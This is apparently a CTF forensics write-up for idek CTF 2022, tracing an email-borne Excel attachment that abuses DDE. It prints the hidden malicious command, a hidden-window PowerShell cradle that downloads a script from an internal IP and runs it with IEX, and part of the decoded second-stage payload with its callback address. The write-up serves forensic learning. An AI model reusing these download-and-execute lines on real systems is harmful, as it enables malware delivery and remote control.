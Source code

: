 +++
author = "dree"
title = "idek CTF 2022"
date = "2023-01-24"
tags = [
    "OSINT", "Forensics"
]
+++

*Was in 2023, not 2022 since event delayed. Great CTF with a lot of challenges from the team **idek** ¯\_(ツ)_/¯. My team WolvSec came in **17th** out of **846** teams. I will be going over my 2 Forensics solves and 5 OSINT. Currently just Forensics 1, I plan to add the rest later!

<!--more-->

# HiddenGem Mixtape 1: Initial Access
Authors: `Bquanman`  
Points: **478**  
Solves: **47**

### Challenge Description:
We're pretty sure there's been a hack into our system. The incident is suspected to be caused by an employee opening a document file received via email even though he deleted it shortly afterwards. We managed to do a logical acquisition of data from his hard drive. However, when we open the document file, it looks empty, can you analyze what it contains?


### Approach

We are given a `.vhdx` file, which contains a Windows Image. To open in Autopsy, I double clicked the file on my Windows machine and imported that disk image. The first thing that struck my eye when doing this was the email saved onto the machine.

{{< img src="autopsyemail.png" >}}

The email HTML gives us the password `Privacy4411@2023!!!`. This can be used to open the attachment in the email, which gives us a file `Policy.xlsx`. In this file my teammates and I tried to find anything meaningful, even performing stego on the image of Tommy Xiaomi but with no success. I noticed a weird line on page 3, which was hidden, but it did not show correct output on google sheets since the file was converted. However, `doubledelete` was able to view the line
```
CMD.EXE /c powershell.exe -w hidden $e=(New-Object System.Net.WebClient).DownloadString(\"http://172.21.20.96/windowsupdate.ps1\");IEX $e
```
This can also be viewed on any.run when importing the file

{{< img src="anyrunoutput.png" >}}

This malicious command seems to have downloaded a file called `windowsupdate.ps1`. I searched this string in Autopsy, and found a command where a very long base64 string was downloaded from the Powershell logs. Decoding the b64 we an object that starts with:
```
(New-OBJECT MAnAGeMent.AUtOmaTiON.PsCreDEntIAL ' ', ('76492d111..)
```

We can run this into a powershell emulator to get the following output:

```
$bwqvRnHz99 = (104,116,116,112,115,58,47,47,112,97,115,116,101);
$bwqvRnHz99 += (98,105,110,46,99,111,109,47,104,86,67,69,85,75,49,66);
$flag = [System.Text.Encoding]::ASCII.GetString($bwqvRnHz99);
$s='172.21.20.96:8080';$i='eef8efac-321d465e-e9d053a7';
$p='http://';$v=Invoke-Web...
```

And there we see a `$flag` variable, signaling this is likely our flag. Running just that and printing we get a pastebin:

{{< img src="tiooutput.png" >}}

And we get the flag! As well as the resource: https://sensepost.com/blog/2016/powershell-c-sharp-and-dde-the-power-within

flag: `idek{MS_ExCel_DyN4m1c_D4ta_ExcH@ng3_1s_3a5y_t0_d3teCt}`
